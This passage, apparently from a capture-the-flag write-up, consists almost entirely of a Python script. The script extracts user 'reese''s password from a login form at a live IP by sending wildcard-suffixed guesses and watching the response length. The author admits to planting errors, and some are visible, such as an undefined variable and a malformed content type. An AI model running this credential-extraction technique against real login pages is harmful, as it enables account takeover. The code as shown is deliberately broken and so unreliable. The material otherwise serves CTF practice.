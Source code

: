 import requests
from string import ascii_lowercase, ascii_uppercase

url = "http://159.65.92.13:30182/login"


headers = {'Host':"159.65.92.13:30182",
        'User-Agent':"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.112 Safari/535.1",
        'Content-Type':"application/x-www-form-urlencode",
        'Connection':"close"}

chars = ascii_lowercase+ascii_uppercase+'0123456789_{}()'

passwd = ''

while(True):
 for char in chars:
    passwd_tmp = passwd+char+'*'
    data = {'username':'reese','password':passwd_tp}
    r = requests.post(url, headers=headers, data=data)
    print(passwd_tmp)
 
    if len(r.content) != 2208 :
        passwd+=char
    elif char=='{':
        print(passwd)
        print('finish!')
        exit
print(passwd)

```

And we get a password! HTB{...}!

Note: as this is a live challenge, I sprickled a few errors into the script, feel free to correct them yourself!


